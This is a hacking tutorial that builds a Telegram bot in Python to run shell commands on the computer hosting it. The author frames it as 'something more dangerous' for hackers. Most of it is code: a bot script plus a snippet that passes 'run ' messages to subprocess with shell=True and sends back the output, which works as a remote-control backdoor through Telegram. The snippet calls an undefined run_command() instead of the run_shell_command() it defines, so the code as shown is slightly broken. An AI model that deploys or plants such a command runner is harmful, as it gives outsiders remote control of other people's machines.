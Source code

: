 <img src="../../icons/telegram.svg" height="40"><p1>USING TELEGRAM FOR PYTHON</p1>
### _Telegrams' api gives hackers a new way to communicate with computers_
_Author: p-i-c-o_

## INTRO
Telegrams' api has been used for many things, for example: Chat Bots, News and Updates, Content Delivery, and much much more. However, using Python and a small computer, a hacker can create a bot that can run malicious code.
Let's create one together.

### INSTALLATION
Because there are some issues with the current pip distribution of the python-telegram-bot, we need to install version 13.13 specifically:
`pip3 install python-telegram-bot==13.13`

### USAGE
We need a bot to use, start a new chat on telegram with the BotFather, and create a new bot and get its bot token. Make sure no one gets it as it would give them access to your bot. Save your chat id and your bot token somewhere safe.

Using a simple script, we can now create a script that communicates with a chat bot. Here it is:
```
# ---------------------------------------------
token = "INSERT YOUR TOKEN HERE"
correct_chat_id = "INSERT YOUR CHAT ID HERE"

from telegram import Bot, Update
from telegram.ext import Updater, MessageHandler, filters
import os, subprocess
# ------------------ FUNCTIONS ------------------
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout

# --------------------- CODE --------------------

def echo(update: Update, context) -> None:
    message = update.message
    reply = None
    # ------------------ Predefined Responses ------------------
    if message.text == "Test 1":
      reply = "Success 1"
    # ----------------------------------------------------------
    bot = context.bot
    if reply != None:
      try:
        bot.send_message(chat_id=correct_chat_id, text=reply)
      except:
        bot.send_message(chat_id=correct_chat_id, text="⚠️ An error occured ⚠️")


if __name__ == "__main__":
    bot_token = token

    bot = Bot(token=bot_token)
    updater = Updater(bot=bot)
    dispatcher = updater.dispatcher
    echo_handler = MessageHandler(filters.Filters.text, echo)
    dispatcher.add_handler(echo_handler)
    updater.start_polling()
    updater.idle()
```
This script will simply reply "Success 1", when you send it "Test 1". Very simple. To create our own commands, use this format.
```
if message.text == <desired_input>:
  reply = <desired_response>
```
This script will only send the user something back nothing else.
To create something more dangerous, we can create a command runner, this would let us remotely run a command on the computer hosting this script.
```
if message.text[:4] == "run ":
  reply = run_command(message.text[4:])
```
It's that simple, but remember to define the `run_command()` function, heres one I use.
```
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout
```
This function will run the command with bash and simply return the command line output.
The cool thing about this command running piece of code is that it detects if the user started with "run " and runs only what is after that to prevent confusion.
